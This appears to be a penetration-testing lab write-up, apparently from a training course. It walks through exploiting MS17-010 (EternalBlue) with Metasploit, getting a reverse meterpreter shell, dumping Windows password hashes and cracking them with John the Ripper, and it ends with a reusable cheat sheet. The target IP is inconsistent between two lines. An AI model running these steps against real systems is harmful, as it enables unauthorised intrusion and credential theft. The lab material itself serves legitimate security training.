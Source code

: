 # Description

Through our vulnerability scans we learned the host at 10.19.99.10 has the vulnerability known as Microsoft Windows SMB Server Multiple Vulnerabilities.  It is also known as MS17-010 and has CVEs 2017-0143, 144, 145, 146, 147 & 148.  This is a major vulnerability. The goal of this lab will be to harvest the credentials present on the 10.19.99.10 host.  We will do this by exploiting the MS17-010 vulnerability using a tool called Metasploit, extract the hashed credentials from the windows SAM file, and decrypt them.

Next we will see if Metasploit has an exploit for the MS17-010 vulnerability we found on our target host.  Enter the following command:
```zsh
search MS17-010
```
<img src="https://i.imgur.com/aFmS5Ht.png"/>


Using the first listed exploit, issue the `use` command with the name of the desired exploit.  
```zsh
use exploit/windows/smb/ms17_010_eternalblue
```

To discover what payloads are available with this exploit, use the `show` command.
```zsh
show payloads
```

Select payload that will launch a reverse_tcp meterpreter shell.
```zsh
set payload windows/x64/meterpreter/reverse_tcp
```

To discover what options are available with this payload, use the `show` command.
```zsh
show options
```
The RHOST value must be set with a specific target IP.  
```zsh
set RHOST 10.19.99.110
```

<img src="https://i.imgur.com/4H3m874.png"/>


to launch the attack, issue the `exploit` command:
```zsh
exploit
```

To dump the user credentials on this system, issue the `hashdump` command in the meterpreter prompt.
```zsh
hashdump
```

Take the results of the hashdump and save them to a .txt file. Now attempt to crack the passwords in the target file with John the Ripper.
```zsh
john hashes.txt --format=nt
```

<img src="https://i.imgur.com/OotFGJV.png"/>

Write a short checklist of the steps you used during this lab to retrieve and crack passwords.  Write it as a cheat sheet you could use on a future pentest.
- Collect vulnerability to exploit
- Start up Metasploit
- Update Metasploit with the command '`msfupdate`
- Select exploit and search for exploit with the command `search <exploit>`
- From the list of exploits available for the vulnerability, select the desired exploit with command `use <eploit name>`
- With exploit select, to see a list of payloads available, enter the command `show payloads`
- To select a payload, enter the command 'set payload `<payload name>`
- Payloads may have available options, which can be displayed with the command `show options`
- To set the target host for the exploit, use the command 'set RHOST `<target IP>`
- Once ready to execute, use the command `exploit`





